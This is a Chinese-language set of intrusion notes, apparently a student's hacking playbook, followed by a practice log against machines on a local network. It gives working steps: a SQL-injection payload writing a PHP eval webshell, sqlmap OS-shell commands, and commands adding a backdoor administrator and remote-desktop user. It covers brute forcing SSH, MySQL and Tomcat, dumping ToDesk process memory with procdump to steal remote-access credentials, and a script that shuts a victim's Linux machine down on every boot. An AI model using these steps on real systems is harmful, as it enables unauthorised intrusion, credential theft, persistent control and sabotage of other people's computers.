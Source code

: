 ### 1. 扫ip

```cmd
//端口号扫描
使用-->御剑端口扫描（3389,80,8080,3306）或者 namp 192.168.71.0/24 --> 扫描c段

1.80端口最重要，通杀端口，找网页的各种漏洞（常见的文件上传，sql注入-->sqlmap的 “--os-shll” / " into file " ），找准机会上传shell，上传成功后，先访问网页，如果页面是空白页面代表路径是对的输入密码直接连。如果是404或者其它代表路径错误，或者shell被删除。

2.3389成功率最低，一般是后面提权后才会使用。
net user hack hack /add
net localgroup administrators hack /add
net localgroup "Remote Desktop Users" hack /add --> (比如说用户不在远程桌面连接组时，使用)

3.3306端口成功率也很低，条件苛刻
处在同一网段，使用Cracke.exe弱口令工具进行爆破，获取密码后使用命令（mysql -u root -h 192.168.1。1 -p），也可以连navicat
而且需要对方允许远程连接

4.8080端口，如果能访问到它的tomcat官方界面，进入后台的网页（有权限，不是403），可以尝试弱口令爆破（默认账号为tomcat tomcat），进去以后找到地方上传shell.war（jsp的shell的压缩的包）然后连接shell

5.22端口:爆破连ssh,成功概率也很低
```

### 2. 扫目录

```php
7k:输入 http：//192.168.71.1/ 选择字典进行目录扫描
hackbar test-->current path
```

### 3. 测试能否访问

```php
//在上一步的基础上，访问那些状态码为200的网页，去找网页的漏洞，如果有shell更好，直接连（连接密码尝试，a,b,c,cmd,shell,1,2,3,word,pass,test,root）
```

### 4. 上传shell

```sql
//sql注入
1.http://192.168.71.45/sqli-labs-master/Less-1/?id=-1' union select 1,2,"<?php @eval($_POST['a']);?>" into outfile "C:\phpstudy_pro\WWW\a.php" --+

2.使用sqlmap --> sqlmap -u "url" --os-shell --level 3  （执行系统命令，权限高的话可以net user /add）
-----sqlmap --> sqlmap -u "url" --sql-shell --level 3 (执行sql语句，可以利用来写shell)

//文件上传漏洞
1.js禁用
2.00截断（windows）
3.空格绕过
4.抓包（改文件类型，文件后缀）
5.图片马（文件包含）
```

###  5.工具连接

`蚁剑`，`godzilla.jar`,`bihind`

```php
//godzilla.jar 可以利用工具生成shell，获取高权限，控制目标机（缺点上传文件不稳定，下载较大的文件时很好用）
//蚁剑 不太安全，但是上传文件方便，不建议使用它的命令行，会报 ret = 1 ，被对方防火墙拦截！

java -jar godzilla.jar
```

###  6. 传文件

```assembly
/*

扩大控制权限，例如使用 第三方程序脚本来执行命令
procdump.exe

以上两个程序缺一不可，传到目标机，然后传一个todesk的安装包给目标机
使用命令 todesk_setup.exe /S 静默安装，但是不好的一点是，安装好了会弹窗！

使用 procdump.exe 
使用 tasklist 查看todesk的pid（有两个todesk，只要类型为server的那个）
然后执行命令：procdump.exe -accepteula -ma 11652(实际的pid) --> 微软自带的获取指定exe文件的数据包（通过蚁剑或者godzilla将dump下来的数据包下载到本地进行分析）
在010Editor里查看16进制编码，使用·Ctrl+F·全局搜索当日的时间戳（例如20240914）

控制好目标机使用电脑的时间，利用空闲时间，上去关防火墙，开3389，新建用户，改配置文件等高权限的操作。。。。。

*/
```

------

# 实战

- 环境:
  - 受害者:`类型不限`
  - 端口扫描工具:`fscan`,`御剑`,`masscan`,`naabu`等
  - 目录扫描工具:`7kbscan-WebPathBrute`
  - 爆破工具:`SNETCracker`
  - shell工具:`蚁剑`,`Godzilla`
  - 其它:`Python3.12`(版本不限),`pycharm`,`procdump`,`010Editor`,`todesk安装包`

> 扫描

```python
import os
import subprocess

# base_ip = "192.168.71."
base_ip = input("请输入需要生成的起始ip地址(例如192.168.71.*):")
last_num = int(base_ip.rsplit('.', 1)[-1])  # 获取最后一个数字 *
base_ip = base_ip.rsplit('.', 1)[0] + '.'  # 获取除了最后一个数字的部分 192.168.71.
ips = [base_ip + str(i) for i in range(last_num, 255)]
# 写入文件
with open("C:/Users/24937/Desktop/ip.txt", "w") as f:
    for ip in ips:
        print(ip)
        f.write(ip + "\n")
print('写入成功!!!')
#
# print(subprocess.run("ipconfig", capture_output=True, encoding='gbk'))
os.system("nmap -sV 192.168.71.0/24")
os.system("fscan.exe -hf C:\\Users\\24937\\Desktop\\ip.txt -p 80,8080,22,3306,6379,3389,1433,445")

# os.system("D:\\naabu\\naabu.exe -host 192.168.71.21 -p 1-65535")
# os.system("D:\\masscan\\masscan.exe --ports 1-65535 192.168.71.21")
```

<img src="./assets/image-20240921102157340.png" alt="image-20240921102157340" style="zoom: 25%;" />

<img src="./assets/image-20240921102058594.png" alt="image-20240921102058594" style="zoom: 50%;" />

<img src="./assets/image-20240921102032742.png" alt="image-20240921102032742" style="zoom: 25%;" />

![image-20240921103136208](./assets/image-20240921103136208.png)

> 22端口(ssh)

- `ssh`爆破
- ![image-20240921143957747](./assets/image-20240921143957747.png)

- 使用爆破出来的账号密码,连接`ssh`
- ![image-20240921144626430](./assets/image-20240921144626430.png)

> linux创建定时关机恶意脚本,开机则关机

![image-20240921144848588](./assets/image-20240921144848588.png)

![image-20240921144857258](./assets/image-20240921144857258.png)

![image-20240921144930043](./assets/image-20240921144930043.png)

![image-20240921145438677](./assets/image-20240921145438677.png)

- 然后`嘻嘻不嘻嘻`,`reboot`一下,对面`已关机`
- `为什么关机又关机?`

![image-20240921150034753](./assets/image-20240921150034753.png)

------

> 3306端口 (mysql)

![image-20240921150653252](./assets/image-20240921150653252.png)

![image-20240921150748552](./assets/image-20240921150748552.png)

- 这个端口可以使用`into outfile`写shell(得知道绝对路径),大多数同学用的是`8.0`的版本,没有写的权限

------



> 1443端口(sqlserver)
